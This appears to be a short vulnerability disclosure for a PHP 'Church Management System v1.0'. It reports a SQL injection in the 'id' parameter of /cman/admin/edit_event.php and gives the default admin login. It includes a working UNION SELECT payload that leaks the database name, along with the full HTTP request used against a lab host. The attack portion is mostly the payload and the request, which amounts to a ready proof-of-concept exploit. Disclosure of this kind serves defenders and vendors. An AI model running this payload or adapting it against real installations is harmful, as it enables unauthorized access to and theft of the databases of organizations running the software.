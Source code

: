 # Church Management System v1.0 by Godfrey De Blessed has SQL injection

BUG_Author: Broccoli

Login account: admin/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/11206/church-management-system.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /cman/admin/edit_event.php?id=

Vulnerability location: /cman/admin/edit_event.php?id=, id

dbname = cman

[+] Payload: /cman/admin/edit_event.php?id=-1%27%20union%20select%201,database(),3,4--+ // Leak place ---> id

```sql
GET /cman/admin/edit_event.php?id=-1%27%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=fjhrjdpuej6edqv5haoadpj3lc
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183248956-e78a8e7c-a26a-4c98-b104-864758d62d04.png)
